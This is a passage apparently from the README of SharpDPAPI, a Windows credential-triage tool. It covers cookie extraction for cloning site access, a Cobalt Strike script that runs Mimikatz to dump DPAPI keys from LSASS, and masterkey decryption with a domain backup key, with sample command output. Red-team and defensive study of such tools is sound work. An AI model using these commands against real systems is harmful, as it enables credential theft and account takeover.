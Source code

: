 The **cookies** command also has `/cookie:REGEX` and `/url:REGEX` arguments to only return cookie names or urls matching the supplied regex. This is useful with `/format:json` to easily clone access to specific sites.

### Cobalt Strike Usage

SharpDPAPI has an Aggressor script (**SharpDPAPI.cna**) that automates the usage of SharpDPAPI through Cobalt Strike. Before usage, replace `$SharpDPAPI::AssemblyPath` in the .cna with the location of your compiled SharpDPAPI assembly.

Loading **SharpDPAPI.cna** will register a new **sharpDPAPI** Beacon command. If **beacon> sharpDPAPI -dump** is run, the current Beacon will execute `sekurlsa::dpapi` Mimikatz command to extract any DPAPI keys from LSASS (assuming elevation) followed by `dpapi::cache` to display the {GUID}:SHA1 mappings. The decrypted master key SHA1s are stored in the credential store.

Running **beacon> sharpDPAPI** will execute SharpDPAPI with the `triage` command with any GUID:SHA1 masterkey mappings extracted for that host. This allows for effective triage of all Credentials and Vaults on a host _for any currently logged in users_.

_TODO: implement machine key triage functions in SharpDPAPI.cna_

## SharpDPAPI Commands

### User Triage

#### masterkeys

The **masterkeys** command will search for any readable user masterkey files and decrypt them using a supplied domain DPAPI backup key. It will return a set of masterkey {GUID}:SHA1 mappings.

The domain backup key can be in base64 form (`/pvk:BASE64...`) or file form (`/pvk:key.pvk`).

 C:\Temp>SharpDPAPI.exe masterkeys /pvk:key.pvk

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.2.0


 [*] Action: Triage User Masterkey Files

 [*] Found MasterKey : C:\Users\admin\AppData\Roaming\Microsoft\Protect\S-1-5-21-1473254003-2681465353-4059813368-1000\28678d89-678a-404f-a197-f4186315c4fa
 [*] Found MasterKey : C:\Users\harmj0y\AppData\Roaming\Microsoft\Protect\S-1-5-21-883232822-274137685-4173207997-1111\3858b304-37e5-48aa-afa2-87aced61921a
 ...(snip)...

 [*] User master key cache:

 {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316...(snip)...
 ...(snip)...


#### credentials
